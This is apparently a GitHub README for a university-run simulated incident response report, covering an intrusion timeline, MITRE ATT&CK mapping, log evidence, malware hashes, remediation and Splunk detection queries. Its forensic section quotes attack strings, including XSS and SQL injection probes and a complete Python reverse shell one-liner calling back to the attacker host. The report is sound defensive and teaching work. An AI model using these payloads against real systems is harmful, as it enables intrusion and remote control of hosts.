

# Enterprise SOC Incident Response & DFIR Investigation (INC2025-0001-001)

[-red.svg)](#)
[](#)
[](#)
[](#)
[](#)

---

## 📌 Executive Summary

On **April 25, 2025, at 17:00:00 UTC+3**, the Security Operations Center (SOC) identified multi-stage unauthorized intrusion activity spanning multiple subnets in the internal enterprise network. An unauthorized adversary gained initial physical network access due to missing 802.1X Network Access Control (NAC), obtaining an internal IP address via DHCP. The attacker executed web application exploits against an internal Linux server, achieved Remote Code Execution (RCE), escalated privileges to `root`, and pivoted laterally into Windows corporate endpoints via OpenSSH and Remote Desktop Protocol (RDP) brute-force attacks and Pass-the-Hash (PtH) techniques.

The joint **SOC & Digital Forensics and Incident Response (DFIR)** team contained the threat within 2 hours and 15 minutes, performed host and network forensic triage via **Splunk SIEM** and **Wireshark**, eliminated malicious persistence mechanisms, and restored validated systems with zero confirmed data exfiltration.

```
+-------------------------------------------------------------------------------------------------------------+
|                                             INCIDENT METADATA                                               |
+----------------------+--------------------------------------------------------------------------------------+
| Incident ID          | INC2025-0001-001                                                                     |
| Severity Level       | High (P2) - Business Operational Risk                                                |
| Classification       | Unauthorized Access, Web Application Exploitation, Privilege Escalation & Lateral    |
| Impact Scope         | 1 Linux Web/DB Server (Compromised to Root), 2 Windows 10 Workstations (Infiltrated) |
| Data Exfiltration    | None Confirmed (Contained before exfiltration phase)                                 |
| Mean Time to Detect  | ~18 minutes from initial anomalous network activity                                  |
| Mean Time to Contain | 2h 15m (Network isolation enforced at 19:15:00)                                     |
| Incident Status      | Closed / Post-Incident Hardening Implemented                                        |
+----------------------+--------------------------------------------------------------------------------------+
```

---

## 👥 SOC & Incident Response Team

- **Osama Essam Khalil Al-Saudi** — SOC Analyst & DFIR Specialist
- **Mohammad Faheem Hasan Zainab** — SOC Lead
- **Ahmed Youssef Abu Naaj** — Forensic Investigator
- **Mustafa Suhail Ahmed Al-Omari** — Threat Hunting & Remediation Engineer

---

## 🗺️ Environment Architecture & Attack Flow



---

## 🎯 MITRE ATT&CK® Mapping

| Tactic | Technique ID | Technique Name | Evidence & Observation |
|---|---|---|---|
| **Initial Access** | [T1200](https://attack.mitre.org/techniques/T1200/) | Hardware Additions | Rogue physical Ethernet connection in office without 802.1X NAC. |
| **Initial Access** | [T1190](https://attack.mitre.org/techniques/T1190/) | Exploit Public-Facing Application | Apache2 exploitation via `/secret/cmd.php` and `/upload/upload.php`. |
| **Execution** | [T1059.006](https://attack.mitre.org/techniques/T1059/006/) | Python Script Execution | Python reverse TCP shell spawned via command injection (`/bin/sh` shell). |
| **Execution** | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Unix Shell | Direct bash command execution through interactive webshell. |
| **Persistence** | [T1505.003](https://attack.mitre.org/techniques/T1505/003/) | Web Shell | Upload of `shell.php` / `shell1.php` into `/upload/` directory. |
| **Persistence** | [T1098](https://attack.mitre.org/techniques/T1098/) | Account Manipulation | Local Linux `root` password altered using `passwd` command. |
| **Privilege Escalation** | [T1068](https://attack.mitre.org/techniques/T1068/) | Exploitation for PrivEsc | Downloaded `47009.c` (CVE-2019-12181 Serv-U FTP local privesc). |
| **Defense Evasion** | [T1070.002](https://attack.mitre.org/techniques/T1070/002/) | Clear Linux Logs | Null-byte injection (`\x00`) into `/var/log/syslog` to corrupt audit trail. |
| **Credential Access** | [T1110.001](https://attack.mitre.org/techniques/T1110/001/) | Password Password Guessing | SSH brute-force (153 failed events) & RDP brute-force (Event 4625). |
| **Credential Access** | [T1003.002](https://attack.mitre.org/techniques/T1003/002/) | SAM Registry / Hash Dumping | NTLM authentication extraction used for Pass-the-Hash. |
| **Lateral Movement** | [T1021.001](https://attack.mitre.org/techniques/T1021/001/) | Remote Desktop Protocol | Unauthorized interactive RDP sessions established (EventCode 4624). |
| **Lateral Movement** | [T1550.002](https://attack.mitre.org/techniques/T1550/002/) | Pass the Hash | SMB share access (`\\*\ADMIN$`, `\\*\IPC$`) authenticated via reused hashes. |
| **Command & Control** | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Web Protocols & Reverse TCP | Reverse shell over port 4444 and Meterpreter C2 communication. |

---

## 🔍 Detailed Forensic Analysis & Log Evidence

### 1. Web Application Compromise (Ubuntu Server `192.168.20.10`)

* **Log Source:** `/var/log/apache2/access.log` ingested via Splunk (`sourcetype=access_combined`)
* **Adversary IP:** `192.168.16.5`
* **Findings:**
  1. **Reconnaissance & XSS Probing (17:18:04 – 17:24:12):**
     Automated URL-encoded script injection into query parameters across `/about.php`, `/chat.php`, and `/login.php`:
     ```http
     GET /chat.php?%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1" 200 849
     GET /login.php?username=admin%27%20or%20%271%27=%271 HTTP/1.1" 200 1264
     ```
  2. **Remote Command Execution via Reverse Shell (17:56:50):**
     Attacker executed an arbitrary OS command payload targeting `/secret/cmd.php`:
     ```python
     python -c 'import socket,os,pty;s=socket.socket();s.connect(("192.168.16.5",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
     ```
     This established an active interactive reverse TCP shell on port 4444.
  3. **Malicious File Upload (17:58:45 – 17:59:08):**
     POST request to `/upload/upload.php` uploading `shell.php` (485 bytes), followed immediately by GET `/upload/shell1.php` returning HTTP 200 to trigger web shell execution.

---

### 2. Linux System Privilege Escalation & Anti-Forensics

* **Log Sources:** `/var/log/auth.log`, `/var/log/syslog`
* **Findings:**
  - **SSH Brute-Force to Compromise `sadmin`:**
    Authentication log recorded repeated failed SSH attempts followed by successful logon for user `sadmin` from `192.168.16.5` across ports 40732 and 35534.
  - **Root Escalation (18:06:38 – 18:08:50):**
    Adversary issued `passwd` command, triggering `pam_unix(passwd:chautok): password changed for root`.
  - **Log Tampering:**
    `/var/log/syslog` inspection at 17:52:52 revealed heavy null-byte padding (`\x00\x00\x00...`) indicating active log truncation and anti-forensic evasion tactics.

---

### 3. Windows Endpoint Infiltration (`Client01` & `Client02`)

* **Log Sources:** `WinEventLog:OpenSSH/Operational`, `WinEventLog:Security`
* **Findings:**
  1. **OpenSSH Automated Brute-Force:**
     - Over **153 authentication failure events** logged within minutes targeting `client1` and `client2`.
     - Event ID 4 recorded automated SSH disconnects due to excessive auth failures.
  2. **RDP Brute-Force & Interactive Access:**
     - **Client01 (192.168.16.3):** 25+ failed login events (`EventCode 4625`) between 17:08 and 18:28, succeeded by interactive logons (`EventCode 4624`) at 18:28:40.
     - **Client02 (192.168.16.4):** 11 clustered failed logons (`EventCode 4625`) at 16:57 followed by successful session (`EventCode 4624`) at 18:31:27.
  3. **Pass-The-Hash & SMB Share Exploitation:**
     - Windows Security Log `EventCode 5140` ("A network share object was accessed"):
       - `\\*\IPC$` (Inter-Process Communication for session establishment)
       - `\\*\Users` (Enumerating user profile folders and credentials)
       - `\\*\ADMIN$` on `Client02` (Administrative share indicating full local admin compromise via Pass-the-Hash)

---

### 4. Payload & Malware Analysis

Two primary artifacts were captured from network streams (`Wireshark` stream 3 and stream 10) and host endpoints:

| Artifact Name | File Type | SHA-256 Hash | VirusTotal Detection | Identification / Threat Classification |
|---|---|---|---|---|
| `shell.php` | PHP Web Shell | `dec0c35aa0f9a8dc388e8a9eb34fff46c3b9f3787cb2ffc6247728dd788aef88` | **28 / 61** | Insecure file upload reverse shell (`trojan.webshell/valkyre`) |
| `file.exe` | 64-bit Windows PE | `a1666d25afc9aa46524f124b64c6f253e48c62d0e5fcf30a74ac8e8e1791c706` | **58 / 72** | Staged Metasploit Meterpreter executable (`trojan.metasploit/rozena`) |

---

## ⏱️ Chronological Incident Timeline

```
+---------------+---------------------------------------------------------------------------------------------+
| Time (UTC+3)  | Event & Action Taken                                                                        |
+---------------+---------------------------------------------------------------------------------------------+
| 17:00:00      | Unauthorized physical machine connected to Ethernet port; assigned 192.168.16.5 via DHCP.  |
| 17:18:04      | Adversary initiates automated web application fuzzing (XSS, SQLi) on Apache2 web server.     |
| 17:39:01      | Multi-threaded SSH brute-force attack launched against Client01 and Client02 (153 failures).|
| 17:56:50      | RCE achieved on Web Server via /secret/cmd.php; Python reverse shell executed to port 4444. |
| 17:58:45      | PHP webshell (shell.php) uploaded and triggered via /upload/upload.php.                     |
| 18:06:38      | Attacker escalates privileges to root on Web Server; root password changed via passwd.      |
| 18:28:40      | RDP brute-force succeeds on Client01 (EventCode 4624); file.exe payload dropped.            |
| 18:31:27      | Lateral movement to Client02 via Pass-the-Hash (EventCode 5140 against ADMIN$).            |
| 19:15:00      | SOC executes containment: VLAN isolation enforced; active sessions terminated.             |
| 19:45:00      | Memory and artifact capture completed; malicious processes and webshells neutralized.       |
| 20:30:00      | Global password reset enforced across all local and administrative accounts.                |
| 21:10:00      | Systems restored from verified, checksum-validated clean backups.                          |
| 22:00:00      | Hardened firewall rules applied; custom Splunk detection rules deployed into production.   |
+---------------+---------------------------------------------------------------------------------------------+
```

---

## 🛡️ Containment, Eradication & Recovery

### 1. Containment Strategy
- **Network Segmentation:** Applied dynamic VLAN isolation on switches to cut off `192.168.16.3`, `192.168.16.4`, and `192.168.20.10` from outbound internet and intra-LAN routes.
- **Firewall Quarantine:** Blacklisted MAC and IP of adversary node `192.168.16.5` at the gateway.
- **Session Termination:** Killed active TCP sessions on port 4444 (reverse shell) and severed active RDP/SSH sessions.

### 2. Eradication Measures
- **Artifact Removal:** Deleted `upload.php`, `shell.php`, `shell1.php`, and `file.exe`.
- **Credential Invalidation:** Reset passwords for `root`, `sadmin`, `client1`, `client2`, and MySQL root credentials.
- **Service Hardening:** Disabled anonymous FTP, removed exposed test scripts (`/secret/cmd.php`), disabled unnecessary SMB shares (`IPC$`, public Samba share).

### 3. Recovery & Validation
- Restored baseline web server and client configurations from verified snapshot backups.
- Performed SHA-256 checksum integrity verification across core system binaries (`/bin`, `/sbin`, `C:\Windows\System32`).
- Monitored restored systems in an isolated test VLAN for 60 minutes before reconnecting to production.

---

## 📊 Splunk Detection Engineering (SPL Queries)

To prevent similar incidents from progressing unnoticed, the following correlation rules were authored and integrated into the SIEM:

### 1. High-Frequency RDP / Windows Authentication Brute-Force
```spl
index=wineventlog source="WinEventLog:Security" EventCode=4625
| stats count by src_ip, ComputerName, user
| where count > 10
| eval Alert_Title="Potential RDP/Windows Brute Force Attack Detected"
| table _time, Alert_Title, src_ip, ComputerName, user, count
```

### 2. Web Shell Upload & Execution Detection
```spl
index=web sourcetype="access_combined" (uri_path="*.php*" AND method="POST")
| eval is_upload=if(match(uri_path, "upload"), 1, 0)
| where is_upload=1
| stats count values(uri_path) by src_ip, status
```

### 3. Suspicious SMB Administrative Share Access (Pass-the-Hash / Lateral Movement)
```spl
index=wineventlog source="WinEventLog:Security" EventCode=5140 ShareName="*ADMIN$*" OR ShareName="*IPC$*"
| stats count by _time, IpAddress, ComputerName, ShareName, SubjectUserName
| where count > 3
| eval Description="Suspicious Administrative Share Access via SMB"
```

---

## 💡 Lessons Learned & Strategic Recommendations

1. **Implement 802.1X Network Access Control (NAC):** Prevent rogue physical devices from receiving DHCP leases without corporate certificate or RADIUS authentication.
2. **Enforce Multi-Factor Authentication (MFA):** Mandate MFA on all internal RDP, SSH, and administrative management services.
3. **Deploy Enterprise EDR/XDR:** Ensure continuous behavioral telemetry on all endpoints to automatically kill unapproved binaries like Meterpreter payloads upon execution.
4. **Enforce Least Privilege & Input Validation:** Disallow arbitrary file uploads in web applications; store uploads outside the web root without execute permissions.
5. **Zero-Trust Network Micro-Segmentation:** Restrict lateral communication between client workstations (Clients should never communicate directly with peer clients over SMB or SSH).

---

## 📂 Repository Structure

```
.
├── README.md                           # Comprehensive Incident Response Master Documentation
├── reports/
│   └── Incident_Response_Report_INC2025-0001-001.pdf  # Full 28-Page Forensic Report
├── splunk/
│   ├── detection_rules.spl             # Production-Ready Splunk Correlation Queries
│   └── dashboards/                     # Sample SOC Dashboard XML configurations
├── iocs/
│   ├── hashes.txt                      # Malicious Artifact SHA-256 Hashes
│   └── network_indicators.csv          # IP and Port Indicators of Compromise
└── pcaps/
    └── README.md                       # Sanitized PCAP extraction guidance
```

---

## 📜 Academic & Professional Notice
*This incident response investigation was conducted under simulated live-fire enterprise infrastructure at Tafila Technical University in collaboration with student SOC defense teams. All techniques, telemetry, and artifacts were analyzed adhering strictly to ethical guidelines and industry standards.*
